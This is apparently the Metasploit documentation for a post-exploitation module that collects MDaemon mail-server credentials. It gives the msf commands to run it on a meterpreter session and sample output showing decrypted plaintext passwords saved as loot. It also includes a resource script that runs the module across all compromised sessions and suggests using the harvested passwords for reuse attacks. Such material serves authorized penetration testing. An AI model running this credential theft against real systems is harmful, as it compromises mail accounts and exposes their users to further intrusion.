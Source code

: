 ## Vulnerable Application

Download and install the email server: [www.altn.com](http://www.altn.com/Downloads/MDaemon-Mail-Server-Free-Trial/)

You require a valid licence, but there's a demo for 30 days.

### Verified

1. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 64 bits.
2. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 32 bits. Worked,  but couldn't find the path through Register.
3. VM --> Microsoft Windows 7 on VMWare.

## Verification Steps

1. Get a meterpreter on a windows machine that has MDaemon installed.
2. Load the module: `use post/windows/gather/credentials/mdaemon_cred_collector`
3. Set the correct session on the module.
  1. Optional: you can add the remote path of the installation, especially if the software is installed on a strange path and the module can't find it..
4. Run the module and enjoy the loot.

## Options

  **RPATH**
  The remote path of the MDaemon installation.
  If the machine runs on 64bits and the meterpreter is 32 bits, it won't be able to find the installation path in the registry, but it will search some default paths. If it is installed on a non-default path you can give the RPATH and it will work.

## Scenarios

**Normal mode**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > exploit 
```

Output:

```
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMTP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.smtp_ser_754168.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.pop3_ser_608271.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.imap_ser_769125.txt
[*] Post module execution completed
```

**Verbose true**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > set verbose true
msf > exploit 
```

Output:

```
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:\Program Files
[*] Searching MDaemon installation at C:\Program Files (x86)
[*] Searching MDaemon installation at C:\Program Files
[*] Checking for Userlist in MDaemons directory at: C:\MDaemon\App
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*] Downloading UserList.dat file to tmp file: SFJOXMHZEFWA
[*] Cracking xJiKYdun7OvjVLnM
[*] Password p0%AhBxvs4IZ
[*] Cracking ocnTldjRpaejTg==
[*] Password Manuel123.
[*] Collected the following credentials:
[*]     Usernames: 2
[*]     Passwords: 2
[*] Deleting tmp file: SFJOXMHZEFWA
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMTP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.smtp_ser_114741.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.pop3_ser_369240.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.imap_ser_028427.txt
[*] Post module execution completed
```

### Scenarios Extended
**Run on all sessions**
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/mdaemon_cred_collector")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

**Meterpreter on email server**

If you have a meterpreter running on a server that has MDaemon installed, run the module and you will get all the users and passwords of the email server. Quite useful for trying password reuse and/or checking the strength of the passwords.

Note: MDaemon can store the passwords on a database, in that case the module won't work, but you can search for the database location, username and password and still get them :)

